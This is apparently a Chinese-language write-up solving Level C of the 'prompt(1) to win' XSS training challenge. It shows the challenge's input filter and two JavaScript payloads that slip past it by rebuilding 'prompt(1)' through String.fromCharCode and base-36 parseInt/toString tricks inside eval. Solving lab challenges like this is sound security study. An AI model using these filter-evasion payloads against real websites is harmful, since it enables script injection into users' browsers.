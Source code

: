 ## [[prompt(1) to win](http://prompt.ml)] [[Level C - ノ┬─┬ノ ︵ ( \\o°o)\\](http://prompt.ml/12)] [[解题报告](http://exp-blog.com/2019/03/25/pid-3723/)]

------

## 题目

```javascript
function escape(input) {
    // in Soviet Russia...
    input = encodeURIComponent(input).replace(/'/g, '');
    // table flips you!
    input = input.replace(/prompt/g, 'alert');

    // ノ┬─┬ノ ︵ ( \o°o)\
    return '<script>' + input + '</script> ';
}
```

## 解题报告

这题与 【[Level A - (╯°□°）╯︵ ┻━┻](https://github.com/lyy289065406/CTF-Solving-Reports/tree/master/prompt/Level%2010%20-%20%28%E2%95%AF%C2%B0%E2%96%A1%C2%B0%EF%BC%89%E2%95%AF%EF%B8%B5%20%E2%94%BB%E2%94%81%E2%94%BB)】 十分相似。

区别在于 `replace` 的 `prompt` 和 单引号 `'` 的顺序反转了。

但是无论顺序如何，过滤后可以使用的字符都只剩下  `a-z`、 `A-Z`、`0-9`、 `.`、 `(`、 `)`、 `!`、 `~`、 `*` 。

因此这题直接使用 【[Level A - (╯°□°）╯︵ ┻━┻](https://github.com/lyy289065406/CTF-Solving-Reports/tree/master/prompt/Level%2010%20-%20%28%E2%95%AF%C2%B0%E2%96%A1%C2%B0%EF%BC%89%E2%95%AF%EF%B8%B5%20%E2%94%BB%E2%94%81%E2%94%BB)】 的 payload 就可以 pass ：

```javascript
eval(String.fromCharCode(112).concat(String.fromCharCode(114)).concat(String.fromCharCode(111)).concat(String.fromCharCode(109)).concat(String.fromCharCode(112)).concat(String.fromCharCode(116)).concat(String.fromCharCode(40)).concat(String.fromCharCode(49)).concat(String.fromCharCode(41)))
```

![](https://github.com/lyy289065406/CTF-Solving-Reports/tree/master/prompt/Level%2012%20-%E3%83%8E%E2%94%AC%E2%94%80%E2%94%AC%E3%83%8E%20%EF%B8%B5%20%28%20%60o%C2%B0o%29%60/imgs/01.png)


------------

但其实这题还有另一种更巧妙的解法。

在 JS 中存在一个函数 `parseInt(str, radix)` 。

默认情况下，`radix = 10`，即它可以把十进制的数字字符串转换成十进制数。

但是通过调整进制数 `radix` ，它可以把其他进制的字符串转换成十进制数。

而当 `radix = 36` 时。它可以把只包含 `0-9a-z` （大小写不敏感）的字符串转换成十进制数。

于是我们可以把 `prompt`  字符串转换成十进制数：`parseInt("prompt", 36)` ，得到 `1558153217` 。

![](https://github.com/lyy289065406/CTF-Solving-Reports/tree/master/prompt/Level%2012%20-%E3%83%8E%E2%94%AC%E2%94%80%E2%94%AC%E3%83%8E%20%EF%B8%B5%20%28%20%60o%C2%B0o%29%60/imgs/02.png)

而要将十进制数字还原成字符串，则可以使用另一个函数 `toString(radix)` （默认情况下 `radix = 10` ）。

即可以使用此方法 `(1558153217).toString(36)` 还原得到 `prompt` 字符串：

![](https://github.com/lyy289065406/CTF-Solving-Reports/tree/master/prompt/Level%2012%20-%E3%83%8E%E2%94%AC%E2%94%80%E2%94%AC%E3%83%8E%20%EF%B8%B5%20%28%20%60o%C2%B0o%29%60/imgs/03.png)

于是最开始的 payload 就开始简化成这样：

```javascript
eval((1558153217).toString(36).concat(String.fromCharCode(40)).concat(1).concat(String.fromCharCode(41)))
```

>  注：【[Level A - (╯°□°）╯︵ ┻━┻](https://github.com/lyy289065406/CTF-Solving-Reports/tree/master/prompt/Level%2010%20-%20%28%E2%95%AF%C2%B0%E2%96%A1%C2%B0%EF%BC%89%E2%95%AF%EF%B8%B5%20%E2%94%BB%E2%94%81%E2%94%BB)】 同样可以使用这个 payload 完成挑战。

![](https://github.com/lyy289065406/CTF-Solving-Reports/tree/master/prompt/Level%2012%20-%E3%83%8E%E2%94%AC%E2%94%80%E2%94%AC%E3%83%8E%20%EF%B8%B5%20%28%20%60o%C2%B0o%29%60/imgs/04.png)

------

## 版权声明

　[![Copyright (C) EXP,2016](https://img.shields.io/badge/Copyright%20(C)-EXP%202016-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
